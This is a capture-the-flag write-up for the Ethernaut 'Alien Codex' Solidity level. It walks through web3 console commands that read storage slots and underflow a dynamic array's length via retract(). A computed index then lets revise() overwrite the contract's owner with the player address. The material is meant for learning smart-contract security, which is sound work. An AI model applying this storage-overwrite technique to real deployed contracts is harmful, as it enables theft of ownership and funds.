 # Alien codex

Mission: take over owner of this contract but we no way to modify it directly because it now show how to assign value to `owner` that they inheit from Ownable.

check value of slot 0:
```javascript
await web3.eth.getStorageAt(contract.address,0)
> '0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```

Try check owner:

```javascript
await contract.owner();
> '0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272'
```

To make change at revise function, we need to enable modifier contacted:
```javascript
await contract.make_contact();
```

Verify value in slot0 again and see that first byte change from 0x..0 to be 0x..1:
```javascript
await web3.eth.getStorageAt(contract.address,0)
> '0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```
It means slot 0 have both bool 1 byte and **owner** address.
![slot0](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/slot0.JPG)

Check value of slot1:
```javascript
await web3.eth.getStorageAt(contract.address,1)
> '0x0000000000000000000000000000000000000000000000000000000000000000'
```

codex.length=0 is very small, we try underflow attack by call function retract() to open all dynamic array:
```javascript
await contract.retract();
```

The reason that need to underflow because solidity compiler add a restriction that prevents access to slots that are not part of the array, by checking that index < array.length.
When underflow from uint size,it return maximum of uint and we can change data of any slot from index.
Refer from [3 ways to malicious manioulate storage variables in solidity](https://medium.com/@kdavidoz/3-ways-to-maliciously-manipulate-storage-variables-in-solidity-d297c92c30e6)

Verify value at slot1 again:
```javascript
await web3.eth.getStorageAt(contract.address,1)
> '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```

from function revise(), we saw that it use codex[i],we may need to overflow slot from slot1 to slot0 
and find index of the owner that were in slot0, We want to replace value of `bytes32 _content` at the index of owner as player address.
Refer to maximum one slot hold 32 bytes mean 256 bit (1byte=8 bit)
_owner variable is located at slot 0 (address have 20 bytes), we need to change from 20bytes to 32bytes for `_content`.
See solution in [addr32bytes.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/addr32bytes.js)

Find index of owner, see solution in [callIndex.sol](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/calIndex.sol)

![index](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/index.JPG)

Replace owner address as player address:
```javascript
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938','0x000000000000000000000000176366cFD97885245fAEA72f8cB6951e52655Adf');
```

Verify that you are owner now:
```javascript
await contract.owner();
> '0x176366cFD97885245fAEA72f8cB6951e52655Adf'
```

![slot1](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/slot1.JPG)

Level completed!
Difficulty 7/10

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of 2^256. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)